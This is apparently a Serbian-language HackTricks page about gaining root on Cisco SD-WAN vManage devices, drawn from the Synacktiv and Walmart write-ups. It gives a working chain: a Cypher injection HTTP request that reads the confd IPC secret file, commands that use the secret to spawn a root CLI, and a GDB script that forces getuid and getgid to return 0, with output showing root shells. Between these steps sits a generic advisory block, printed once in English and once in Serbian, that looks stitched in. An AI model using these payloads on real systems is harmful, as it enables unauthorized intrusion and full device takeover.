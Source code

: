 # Cisco - vmanage

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Putanja 1

(Primer sa [https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html](https://www.synacktiv.com/en/publications/pentesting-cisco-sd-wan-part-1-attacking-vmanage.html))

Nakon malo istraživanja kroz neku [dokumentaciju](http://66.218.245.39/doc/html/rn03re18.html) vezanu za `confd` i različite binarne fajlove (pristupnim sa nalogom na Cisco veb sajtu), otkrili smo da za autentifikaciju IPC socket-a koristi tajnu smeštenu u `/etc/confd/confd_ipc_secret`:

```
vmanage:~$ ls -al /etc/confd/confd_ipc_secret

-rw-r----- 1 vmanage vmanage 42 Mar 12 15:47 /etc/confd/confd_ipc_secret
```

Sećate se naše Neo4j instance? Ona se izvršava pod privilegijama korisnika `vmanage`, što nam omogućava da preuzmemo datoteku koristeći prethodnu ranjivost:

```
GET /dataservice/group/devices?groupId=test\\\'<>\"test\\\\\")+RETURN+n+UNION+LOAD+CSV+FROM+\"file:///etc/confd/confd_ipc_secret\"+AS+n+RETURN+n+//+' HTTP/1.1

Host: vmanage-XXXXXX.viptela.net



[...]

"data":[{"n":["3708798204-3215954596-439621029-1529380576"]}]}
```

Program `confd_cli` ne podržava argumente komandne linije, već poziva `/usr/bin/confd_cli_user` sa argumentima. Dakle, možemo direktno pozvati `/usr/bin/confd_cli_user` sa sopstvenim setom argumenata. Međutim, nije čitljiv sa našim trenutnim privilegijama, pa ga moramo preuzeti iz rootfs-a i kopirati koristeći scp, pročitati pomoć i koristiti je da bismo dobili shell:

```
vManage:~$ echo -n "3708798204-3215954596-439621029-1529380576" > /tmp/ipc_secret

vManage:~$ export CONFD_IPC_ACCESS_FILE=/tmp/ipc_secret

vManage:~$ /tmp/confd_cli_user -U 0 -G 0

Welcome to Viptela CLI

admin connected from 127.0.0.1 using console on vManage

vManage# vshell

vManage:~# id

uid=0(root) gid=0(root) groups=0(root)
```

## Putanja 2

(Primer sa [https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77](https://medium.com/walmartglobaltech/hacking-cisco-sd-wan-vmanage-19-2-2-from-csrf-to-remote-code-execution-5f73e2913e77))

Blog¹ tima synacktiv opisao je elegantan način za dobijanje root shell-a, ali kvaka je da zahteva kopiranje `/usr/bin/confd_cli_user` koji je samo čitljiv od strane root-a. Pronašao sam drugi način za eskalaciju do root-a bez takvih problema.

Kada sam rastavio binarnu datoteku `/usr/bin/confd_cli`, primetio sam sledeće:

```
vmanage:~$ objdump -d /usr/bin/confd_cli
… snipped …
40165c: 48 89 c3              mov    %rax,%rbx
40165f: bf 1c 31 40 00        mov    $0x40311c,%edi
401664: e8 17 f8 ff ff        callq  400e80 <getenv@plt>
401669: 49 89 c4              mov    %rax,%r12
40166c: 48 85 db              test   %rbx,%rbx
40166f: b8 dc 30 40 00        mov    $0x4030dc,%eax
401674: 48 0f 44 d8           cmove  %rax,%rbx
401678: 4d 85 e4              test   %r12,%r12
40167b: b8 e6 30 40 00        mov    $0x4030e6,%eax
401680: 4c 0f 44 e0           cmove  %rax,%r12
401684: e8 b7 f8 ff ff        callq  400f40 <getuid@plt>  <-- HERE
401689: 89 85 50 e8 ff ff     mov    %eax,-0x17b0(%rbp)
40168f: e8 6c f9 ff ff        callq  401000 <getgid@plt>  <-- HERE
401694: 89 85 44 e8 ff ff     mov    %eax,-0x17bc(%rbp)
40169a: 8b bd 68 e8 ff ff     mov    -0x1798(%rbp),%edi
4016a0: e8 7b f9 ff ff        callq  401020 <ttyname@plt>
4016a5: c6 85 cf f7 ff ff 00  movb   $0x0,-0x831(%rbp)
4016ac: 48 85 c0              test   %rax,%rax
4016af: 0f 84 ad 03 00 00     je     401a62 <socket@plt+0x952>
4016b5: ba ff 03 00 00        mov    $0x3ff,%edx
4016ba: 48 89 c6              mov    %rax,%rsi
4016bd: 48 8d bd d0 f3 ff ff  lea    -0xc30(%rbp),%rdi
4016c4:   e8 d7 f7 ff ff           callq  400ea0 <*ABS*+0x32e9880f0b@plt>
… snipped …
```

Kada pokrenem "ps aux", primetio sam sledeće (_napomena -g 100 -u 107_)

```
vmanage:~$ ps aux
… snipped …
root     28644  0.0  0.0   8364   652 ?        Ss   18:06   0:00 /usr/lib/confd/lib/core/confd/priv/cmdptywrapper -I 127.0.0.1 -p 4565 -i 1015 -H /home/neteng -N neteng -m 2232 -t xterm-256color -U 1358 -w 190 -h 43 -c /home/neteng -g 100 -u 1007 bash
… snipped …
```

Pretpostavio sam da program "confd\_cli" prosleđuje korisnički ID i grupni ID koje je prikupio od prijavljenog korisnika aplikaciji "cmdptywrapper".

Moj prvi pokušaj bio je da direktno pokrenem "cmdptywrapper" i da mu dostavim `-g 0 -u 0`, ali nije uspelo. Izgleda da je negde tokom procesa kreiran file descriptor (-i 1015) i ne mogu ga lažirati.

Kao što je pomenuto u blogu synacktiv (poslednji primer), program "confd\_cli" ne podržava argumente komandne linije, ali mogu ga uticati na njega pomoću debagera i srećom GDB je uključen u sistem.

Kreirao sam GDB skriptu u kojoj sam prisilio API "getuid" i "getgid" da vrate 0. Pošto već imam privilegije "vmanage" putem RCE deserijalizacije, imam dozvolu da direktno čitam "/etc/confd/confd\_ipc\_secret".

root.gdb:

```
set environment USER=root
define root
finish
set $rax=0
continue
end
break getuid
commands
root
end
break getgid
commands
root
end
run
```

```
# Cisco vManage Privilege Escalation

## Description
This technique allows an attacker to escalate privileges on a Cisco vManage device.

## Exploitation
1. Identify the version of the Cisco vManage software.
2. Search for any known vulnerabilities or exploits for that version.
3. Exploit the vulnerability to gain initial access to the device.
4. Once inside, escalate privileges to gain administrative access.

## Mitigation
To mitigate this vulnerability, follow these steps:
1. Keep the Cisco vManage software up to date with the latest patches and updates.
2. Implement strong access controls and authentication mechanisms.
3. Regularly monitor and audit the device for any suspicious activity.
4. Follow best practices for network security and hardening.

## References
- [Cisco Security Advisories](https://tools.cisco.com/security/center/publicationListing.x)
- [Cisco vManage Documentation](https://www.cisco.com/c/en/us/support/cloud-systems-management/vmanage/products-installation-guides-list.html)
```

```
# Cisco vManage Eskalacija privilegija

## Opis
Ova tehnika omogućava napadaču da eskalira privilegije na Cisco vManage uređaju.

## Eksploatacija
1. Identifikujte verziju Cisco vManage softvera.
2. Pretražite poznate ranjivosti ili eksploate za tu verziju.
3. Iskoristite ranjivost kako biste dobili početni pristup uređaju.
4. Jednom unutra, eskalirajte privilegije kako biste dobili administratorski pristup.

## Otklanjanje
Da biste otklonili ovu ranjivost, sledite ove korake:
1. Držite Cisco vManage softver ažuriranim sa najnovijim zakrpama i ažuriranjima.
2. Implementirajte jake kontrole pristupa i mehanizme za autentifikaciju.
3. Redovno pratite i audirajte uređaj za bilo kakvu sumnjivu aktivnost.
4. Pratite najbolje prakse za mrežnu sigurnost i ojačavanje.

## Reference
- [Cisco Security Advisories](https://tools.cisco.com/security/center/publicationListing.x)
- [Cisco vManage Dokumentacija](https://www.cisco.com/c/en/us/support/cloud-systems-management/vmanage/products-installation-guides-list.html)
```

```
vmanage:/tmp$ gdb -x root.gdb /usr/bin/confd_cli
GNU gdb (GDB) 8.0.1
Copyright (C) 2017 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-poky-linux".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from /usr/bin/confd_cli...(no debugging symbols found)...done.
Breakpoint 1 at 0x400f40
Breakpoint 2 at 0x401000Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401689 in ?? ()Breakpoint 2, getgid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401694 in ?? ()Breakpoint 1, getuid () at ../sysdeps/unix/syscall-template.S:59
59 T_PSEUDO_NOERRNO (SYSCALL_SYMBOL, SYSCALL_NAME, SYSCALL_NARGS)
0x0000000000401871 in ?? ()
Welcome to Viptela CLI
root connected from 127.0.0.1 using console on vmanage
vmanage# vshell
bash-4.4# whoami ; id
root
uid=0(root) gid=0(root) groups=0(root)
bash-4.4#
```

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

* Da li radite u **cybersecurity kompaniji**? Želite li da vidite svoju **kompaniju reklamiranu na HackTricks-u**? Ili želite da imate pristup **najnovijoj verziji PEASS-a ili preuzmete HackTricks u PDF formatu**? Proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Pridružite se** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili me **pratite** na **Twitter-u** 🐦[**@carlospolopm**](https://twitter.com/hacktricks\_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **i** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
